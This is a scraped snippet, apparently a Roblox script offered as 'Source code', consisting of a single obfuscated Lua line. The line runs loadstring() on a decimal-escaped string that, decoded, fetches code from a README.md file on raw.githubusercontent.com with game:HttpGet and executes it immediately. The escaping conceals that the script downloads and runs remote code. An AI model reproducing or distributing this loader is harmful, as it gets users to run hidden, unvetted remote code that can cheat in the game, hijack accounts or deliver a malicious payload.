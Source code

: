 loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\80\114\111\116\111\82\66\76\88\47\84\105\109\101\45\82\101\119\105\110\100\101\114\45\83\99\114\105\112\116\47\109\97\105\110\47\82\69\65\68\77\69\46\109\100\39\41\44\116\114\117\101\41\41\40\41\10")()
